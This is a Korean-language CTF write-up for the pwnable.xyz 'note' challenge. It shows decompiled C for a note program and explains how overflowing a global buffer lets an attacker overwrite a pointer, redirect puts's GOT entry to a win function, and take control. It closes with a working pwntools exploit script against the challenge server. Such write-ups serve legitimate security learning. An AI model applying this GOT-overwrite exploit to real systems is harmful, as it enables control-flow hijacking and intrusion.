 ```yaml
---
title: "[pwnable.xyz]note"
date: 2020-1-12
ctf: Pwnable.xyz
layout: post
published : false
---
```


메인은 print_menu해주고 0번은 종료 1번은 edit_note() 2번은 edit_desc() 해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax

  setup();
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
        v3 = read_int32();
        if ( v3 != 1 )
          break;
        edit_note();
      }
      if ( v3 != 2 )
        break;
      edit_desc();
    }
    if ( !v3 )
      break;
    puts("Invalid");
  }
  return 0;
}
```

edit_note는 원하는 사이즈만큼 받아서 전역변수 s에 값을 넣어줄 수 있다. 

```c
void edit_note()
{
  int size; // ST04_4
  void *buf; // ST08_8

  printf("Note len? ");
  size = read_int32();
  buf = malloc(size);
  printf("note: ");
  read(0, buf, size);
  strncpy(s, buf, size);
  free(buf);
}
```

edit_desc는 전역변수 buf에 입력을 받는다.

```c
ssize_t edit_desc()
{
  if ( !buf )
    buf = malloc(32uLL);
  printf("desc: ");
  return read(0, buf, 32uLL);
}
```

`edit_note` 에서 전역변수 s에 값을 넣을 때 buf 영역을 덮을 수 있다. 여기서 buf 영역을 어떤 함수의 got로 덮고 `edit_desc` 에서 `win` 함수 주소 넣어주면 해당 함수를 실행할 때 `win ` 함수가 호출될 것이다.

> exploit.py

```python
from pwn import *

def edit_note(length,content):
	sla('>','1')
	sla('?',str(length))
	sa(':',content)

def edit_desc(content):
	sla('>','2')
	sa(':',content)

if __name__ == '__main__':
	e = ELF('./challenge')
	#p = process('./challenge')
	p = remote('svc.pwnable.xyz',30016)
	sla = lambda x,y : p.sendlineafter(x,y)
	sa = lambda x,y : p.sendafter(x,y)

	edit_note(50,"A"*0x20 + p64(e.got['puts']))
	edit_desc(p64(e.symbols['win']))
	p.sendlineafter('>','3')
	p.interactive()
```